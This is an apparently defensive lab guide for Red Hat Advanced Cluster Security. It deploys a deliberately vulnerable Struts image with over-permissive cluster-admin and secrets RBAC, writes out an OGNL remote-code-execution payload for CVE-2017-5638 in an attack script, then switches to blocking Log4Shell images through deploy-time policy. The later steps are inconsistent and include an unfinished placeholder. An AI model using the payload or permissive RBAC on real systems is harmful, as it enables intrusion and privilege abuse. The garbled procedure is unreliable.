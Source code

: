==  Black Hat - RHACS Struts RCE Vulnerability Demonstration 

In this lab, you demonstrate how to quickly stop shells being spawned from the `struts` vulnerabilities Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS). 

.Goals
* Prevent the execution of RCE exploit

== Ensure a clean environment

. Start by ensuring you have a clean lab environment. Run the following command to reset any changes others may have made.

[source,sh,subs="attributes",role=execute]
----
oc delete project struts-rce
rm ~/vuln-dep.yaml
----

== Deploy the struts infected container image

The next step is to deploy the log4shell laden container image to the OpenShift cluster. 

. Procedure
. Start by creating a new project and deploying a vulnerable struts application. 

[source,sh,subs="attributes",role=execute]
----
oc new-project struts-rce
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Now using project "struts-rce" on server "http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:6443".

You can add applications to this project with the 'new-app' command. For example, try:

    oc new-app rails-postgresql-example

to build a new example application in Ruby. Or use kubectl to deploy a simple Kubernetes application:

    kubectl create deployment hello-node --image=k8s.gcr.io/serve_hostname
----

[start=2]
. Next, deploy the vulnerable application by creating and applying the following deployment YAML file:

[source,sh,subs="attributes",role=execute]
----
cat << EOF >vuln-dep.yaml
apiVersion: v1
kind: Namespace
metadata:
  name: struts-rce
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: 'web'
  namespace: struts-rce
  labels: 
    app: web
spec:
  replicas: 1
  selector:
    matchLabels:
      app: web
  template:
    metadata:
      labels:
        app: web
    spec:
      containers:
        - image: "quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest"
          imagePullPolicy: Always
          name: web
          ports:
          - name: http
            containerPort: 8080
            protocol: TCP
      serviceAccountName: web-service-account
      restartPolicy: Always
---
apiVersion: v1
kind: Service
metadata:
  name: 'web'
  namespace: struts-rce
  labels:
    app: web
spec:
  type: "NodePort"
  ports:
  - name: http
    port: 80
    nodePort: 30004
    protocol: TCP
    targetPort: 8080
  selector:
    app: "web"
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: web-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: web-role
  namespace: struts-rce
rules:
  - apiGroups:
        - ""
    resources:
      - secrets
    verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: web-rolebinding
  namespace: struts-rce
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: web-role 
subjects:
- kind: ServiceAccount
  name: web-service-account
---
apiVersion: v1
kind: Secret
metadata:
  name: connectionstrings
  namespace: struts-rce
data:
  sql: U2VydmVyPW15c3Fsc2VydmVyO0RhdGFiYXNlPWRiO1VzZXIgSWQ9YWRtaW47UGFzc3dvcmQ9UEBzc3dvcmQ7
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: admin-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: admin-clusterrolebinding
  namespace: struts-rce
subjects:
- kind: ServiceAccount
  name: admin-service-account
  namespace: struts-rce
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
---
apiVersion: v1
kind: Secret
metadata:
  name: admin-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: admin-service-account
type: kubernetes.io/service-account-token
---
apiVersion: v1
kind: Secret
metadata:
  name: web-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: web-service-account
type: kubernetes.io/service-account-token
EOF
----

[start=3]
. Deploy the struts deployment into your new projecct by using the 'oc' CLI

[source,bash,role="execute"]
----
oc create -f ./vuln-dep.yaml
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc create -f ./vuln-dep.yaml
deployment.apps/web created
----

[start=4]
. Ensure that the application was deployed without issues. 

[source,bash,role="execute"]
----
oc get pods -l deployment=web -A
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc get pods -n struts-rce
NAME                  READY   STATUS    RESTARTS   AGE
web-95f4544df-9s9n5   1/1     Running   0          56s
----

IMPORTANT: For the last part of this section, check to make sure that the struts vulnerability is in the container with a quick CLI scan using the roxctl CLI

[start=5]
. Execute the following command in the terminal to ensure the struts vulnerability is present.

[source,bash,role="execute"]
----
roxctl --insecure-skip-tls-verify -e "$ROX_CENTRAL_ADDRESS:443" image scan --image=quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest --force -o table --severity=CRITICAL
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Scan results for image: quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest
(TOTAL-COMPONENTS: 5, TOTAL-VULNERABILITIES: 14, LOW: 0, MODERATE: 0, IMPORTANT: 0, CRITICAL: 14)

+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                  COMPONENT                  | VERSION |       CVE        | SEVERITY |                       LINK                        |           FIXED VERSION            |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|    commons-fileupload:commons-fileupload    |  1.2.2  | CVE-2016-1000031 | CRITICAL | https://nvd.nist.gov/vuln/detail/CVE-2016-1000031 |               1.3.3                |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                 log4j:log4j                 | 1.2.17  |  CVE-2022-23307  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23307  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2022-23305  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23305  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-17571  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-17571  | introduced=1.2&lastAffected=1.2.17 |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
| org.apache.struts:struts2-convention-plugin | 2.3.12  |  CVE-2016-6795   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-6795   |               2.3.31               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|       org.apache.struts:struts2-core        |         |  CVE-2016-4436   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-4436   |               2.3.29               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2021-31805  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2021-31805  |               2.5.30               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-0230   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-0230   |               2.5.22               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2016-3082   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-3082   |              2.3.20.3              |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2020-17530  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2020-17530  |               2.5.26               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-5638   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-5638   |               2.3.32               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2023-50164  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2023-50164  |               2.5.33               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-12611  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-12611  |               2.3.34               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|  org.apache.struts:struts2-struts1-plugin   |         |  CVE-2017-9791   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-9791   |        lastAffected=2.3.37         |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
WARN:   A total of 14 unique vulnerabilities were found in 5 components
----

NOTE: You can see that a number of CVE's, including CVE-2023-50164 and  can be found in the quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest container image that your just deployed.

=== Leverage the remote code execution in the struts vulnerability
[start=6]
Create the attack script: 
[source,sh,subs="attributes",role=execute]
----
cat << EOF >attack.py
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
EOF
----

[start=7]
And launch the attack! 
[source,sh,subs="attributes",role=execute]
----
python3 attack.py http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:30004 "whoami"
----

Great job so far!
image::https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExbnY0NDA0ZnJqNXh6cGNqeHNxZGd5Zm5qMnlpOHhrbm1hY2pwcG5ydSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/p18ohAgD3H60LSoI1C/giphy.gif[link=self, window=blank, width=100%, class="center"]

== Red Hat^(R)^ Advanced Cluster Security (RHACS) web console 

Red Hat Advanced Cluster Security for Kubernetes is a Kubernetes-native security platform that equips you to build, deploy, and run cloud-native applications with more security. The solution helps protect containerized Kubernetes workloads in all major clouds and hybrid platforms, including Red Hat OpenShift, Amazon Elastic Kubernetes Service (EKS), Microsoft Azure Kubernetes Service (AKS), and Google Kubernetes Engine (GKE).

=== Access the RHACS web console.

*Procedure*

[start=1]
. Log into the RHACS console at `{acs_route}`
. Click the "Advanced" button in your browser

image::../assets/images/01-rhacs-advanced.png[RHACS login not private] 

[start=3]
. Click "Proceed to {acs_route}"

image::../assets/images/01-rhacs-proceed.png[RHACS login proceed]

[start=4]
. Enter the RHACS credentials 

[cols="1,1"]
|===
*RHACS Console Username:* | {acs_portal_username} |
*RHACS Console Password:* | {acs_portal_password} |
|===

image::../assets/images/01-rhacs-login.png[RHACS console]

image::../assets/images/01-rhacs-console-dashboard.png[RHACS console]



=== Find the struts vulnerability in RHACS dashboard. 

The next step is to use the ACS dashboard to locate the Log4shell vulnerability. The following gif will showcase how to locate the vulnerability witht the exact steps outlines below. 

NOTE: CVE-2021-44228 & CVE-2021-45046 can both be used to find the log4shell vulnerabiulity in the dashboard. 

image:../assets/images/misc-log-1.gif[]

. Procedure

SEAN TO DO

=== Set Deploy Time Enforcement to On

You must enable deploy-time enforcement for the `Log4Shell: log4j Remote Code Execution vulnerability` policy.

.Procedure
. Navigate to *Platform Configuration -> Policy Management* and find the policy called `Log4Shell: log4j Remote Code Execution vulnerability`.
+
TIP: To find the policy quickly, type `Policy` followed by `Log4Shell` into the filter bar on the *Policy Management* page.

// image::images/11_log4shell_04.png[]

. Select the policy by clicking the three dots to the right and select `Edit policy`.

image::../assets/images/11_log4shell_05.png[]

. Use the `Policy Behavior` tab and enable runtime enforcement by clicking the `inform and enforce button` under `Response Method`
. Scroll down to `Configure enforcement behavior` and switch both the `Enforce on Build` and `DEnforce on Deploy` selectors to on. 

image::../assets/images/11_log4shell_06.png[]

. Click *Review Policy* on the left and *Save*.

+
. Redeploy the vulnerable image
+
[source,bash,role="execute"]
----
oc create -f ./deploy.yaml
----
+
. Examine the output and note that the Deployment failed to start:
+

.Sample Output
[source,texinfo]
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Log4Shell: log4j Remote Code Execution vulnerability
- Description:
    ↳ Alert on deployments with images containing the Log4Shell vulnerabilities
      (CVE-2021-44228 and CVE-2021-45046). There are flaws in the Java logging library
      Apache Log4j in versions from 2.0-beta9 to 2.15.0, excluding 2.12.2.
- Rationale:
    ↳ These vulnerabilities allows a remote attacker to execute code on the server if
      the system logs an attacker-controlled string value with the attacker's JNDI
      LDAP server lookup.
- Remediation:
    ↳ Update the log4j libary to version 2.16.0 (for Java 8 or later), 2.12.2 (for
      Java 7) or later. If not possible to upgrade, then remove the JndiLookup class
      from the classpath: zip -q -d log4j-core-*.jar
      org/apache/logging/log4j/core/lookup/JndiLookup.class
- Violations:
    - CVE-2021-44228 (CVSS 10) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'
    - CVE-2021-45046 (CVSS 9) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number
----
+
[CAUTION]
====
You might get a different message, detailed below.
RHACS has not yet scanned the image, and is blocking unscanned images from deployment.
If that is the case, simpley run the `oc create -f ./deploy.yaml` again and it will have scanned the image.
Now the deployment will trigger the log4j violations above.
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Images with no scans
- Description:
    ↳ Alert on deployments with images that have not been scanned
- Rationale:
    ↳ Without a scan, there will be no vulnerability information for this image
- Remediation:
    ↳ Configure the appropriate registry and scanner integrations so that StackRox can
      obtain scans for your images.
- Violations:
    - Image in container 'log4shell' has not been scanned


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number

----
====

== View Violations Report

A complete record of the event can be found on the *Violations* page.

.Procedure
. Navigate to the *Violation* page from the left navigation bar.
. Use the Filter Bar to find the `Policy: Log4Shell: log4j Remote Code Execution vulnerability` and select the policy name.
. Explore the list of the violation events.

== Summary

You enabled Log4Shell deploy-time policy enforcement, and verified that the policy prevented the `log4shell` container from running.
